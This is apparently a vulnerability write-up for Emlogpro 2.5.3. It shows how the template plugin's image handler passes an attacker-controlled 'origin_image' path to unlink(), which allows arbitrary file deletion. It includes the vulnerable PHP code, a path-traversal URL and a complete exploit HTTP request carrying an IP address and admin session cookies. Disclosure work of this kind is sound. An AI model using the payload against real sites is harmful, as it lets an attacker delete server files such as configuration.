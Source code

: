 

## Emlogpro 2.5.3 Arbitrary File Deletion Vulnerability

EMLOG is a lightweight open-source blogging and CMS building system that is fast, resource-efficient, and easy to use, making it suitable for websites of various sizes.

A serious vulnerability exists in the latest version 2.5.3 of Emlogpro, where the file `content\plugins\tpl_options\actions\tpl.php` has path traversal and parameter control, allowing arbitrary file deletion.

### Solution Recommendation
It is recommended to update your current system or software to the latest version to fix this vulnerability.

### Vulnerability Analysis
The vulnerable file `content\plugins\tpl_options\actions\tpl.php` is as follows:
```php
<?php
/*
 * Author: Vaimibao-曦颜XY
 * Description: Template setting plugin AJAX handler.
*/

require_once '../../../../init.php';

if (!User::isAdmin()) {
    echo 'Insufficient permissions!';
    exit;
}

// Handle AJAX action
$action = Input::postStrVar('action', '');
if (!isset($action)) {
    echo 'Operation failed, please refresh the page!';
    exit;
}

// Handle AJAX request
if ($action === 'tpl_upload') {
    $origin_image = Input::postStrVar('origin_image', '');
    $ret = uploadCropImg();
    $file_path = $ret['file_info']['file_path'];
    $abs_file_path = '';
    $abs_file_path = strstr($file_path, 'content/uploadfile/');
    if ($abs_file_path === false) {
        echo '{"code":"error","data":"File upload failed"}';
        exit;
    }
    $abs_file_path = BLOG_URL . $abs_file_path;

    // Delete old image
    if (!empty(trim($origin_image)) && strpos($origin_image, 'uploadfile') !== false) {
        $path = '../../../../' . str_replace(BLOG_URL, '', $origin_image);
        if (file_exists($path)) {
            unlink($path);
        }
    }

    if (empty($ret['success'])) {
        echo '{"code":"error","data":"' . $ret['message'] . '"}';
        exit;
    }

    if ($file_path) {
        echo '{"code":"success","data":"' . $abs_file_path . '"}';
        exit;
    }
}
```
The main function of this code is to upload new images and delete old ones.

We can control the `origin_image`, which refers to the old image path. The final `unlink` path is constructed with the following condition:
```r
if (!empty(trim($origin_image)) && strpos($origin_image, 'uploadfile') !== false)
```
The path is then concatenated with:
```r
$path = '../../../../' . str_replace(BLOG_URL, '', $origin_image);
```
So, we can use path traversal to delete arbitrary files, such as `config.php`:
```r
http://localhost/content/uploadfile/../../config.php
```

### Attacking the Server

First, create a `file.txt` in the app directory of the container (which will be deleted later using the vulnerability).
![png](./1.png)

Log in as an administrator.
Click on Appearance -> Template -> Click on the Header Settings of the Default Template -> Upload any image.
![png](./2.png)

Intercept the request using Burp Suite and change the `origin_image` to the exploit URL:
```r
http://124.220.37.173:8000/content/uploadfile/../../file.txt
```

Complete HTTP request:
```http
POST /content/plugins/tpl_options/actions/tpl.php HTTP/1.1
Host: 124.220.37.173:8000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:134.0) Gecko/20100101 Firefox/134.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------38850914281727208123467510771
Content-Length: 6265
Origin: http://124.220.37.173:8000
Connection: close
Referer: http://124.220.37.173:8000/admin/template.php
Cookie: PHPSESSID=936897df99aabaaecb83730927efa59f; EM_AUTHCOOKIE_PY2fzSUL3tB6Rk8Jsjmurk2ZSBCifkIb=admin%7C1768579696%7Ca56b08b3f3d8179dc513fa7c20a40e18; EM_AUTHCOOKIE_IeOWYaYo8d73Rtrkcn8N8zzmOVhFZnsX=admin%7C1768582678%7Cb494dbed29cbe93144bec965430ca811

-----------------------------38850914281727208123467510771
Content-Disposition: form-data; name="action"

tpl_upload
-----------------------------38850914281727208123467510771
Content-Disposition: form-data; name="image"; filename="logo.png"
Content-Type: image/png

PNG


-----------------------------38850914281727208123467510771
Content-Disposition: form-data; name="origin_image"

http://124.220.37.173:8000/content/uploadfile/../../file.txt
-----------------------------38850914281727208123467510771--

```

Screenshot:
![png](./3.png)

After executing the request, we see that the file was successfully deleted:
![png](./4.png)

---
